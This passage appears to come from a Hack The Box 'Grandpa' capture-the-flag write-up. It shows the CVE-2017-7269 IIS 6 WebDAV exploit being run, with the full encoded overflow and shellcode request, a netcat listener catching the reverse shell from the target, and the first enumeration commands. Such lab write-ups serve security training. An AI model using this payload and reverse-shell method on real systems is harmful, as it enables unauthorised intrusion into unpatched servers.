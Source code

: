 ```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```
Now let's start the exploit.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa]
└─$ python CVE-2017-7269-IIS6-Webdav.py $ip 80 10.10.14.18 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

```
The exploit has run, now let's check the listener to see if the connection has been established.


## Initial access
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa]
└─$ sudo rlwrap nc -lvp 443
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.254.80.
Ncat: Connection from 10.129.254.80:1032.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>


```
It looks like the connection has been established from the target. 
Now it is time to do some local enumeration on the target.

```bash
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
`nt authority\network service`
```bash
c:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

```